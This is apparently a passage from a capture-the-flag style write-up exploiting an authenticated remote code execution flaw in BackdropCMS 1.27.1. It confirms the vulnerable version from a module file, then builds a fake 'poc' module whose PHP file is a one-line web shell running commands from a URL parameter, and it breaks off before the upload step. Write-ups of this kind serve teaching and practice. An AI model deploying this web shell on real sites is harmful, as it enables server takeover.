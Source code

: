 Looking around for exploits for this we can find [BackdropCMS 1.27.1 Authenticated RCE](https://www.exploit-db.com/exploits/52021)
We can confirm our version is the vulnerable version and checking out one of the modules:

```bash
cat core/modules/user/user.info

type = module
name = User
description = Manages the user registration and login system.
package = System
tags[] = Account Management
version = BACKDROP_VERSION
backdrop = 1.x
required = TRUE

configure = admin/config/people

stylesheets[all][] = css/user.css

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

Although a full automation PoC is provided I prefer to do it manually.

So let's create our `poc.info` file in a `poc` directory:

```bash
cat poc/poc.info

type = module
name = poc
description = Manages the user registration and login system.
package = Layouts
tags[] = Blocks
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/poc

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662
```

Next let's create our `poc.php` file in the same directory:

```bash
cat poc/poc.php 

<?php system($_GET['cmd'])?>
```
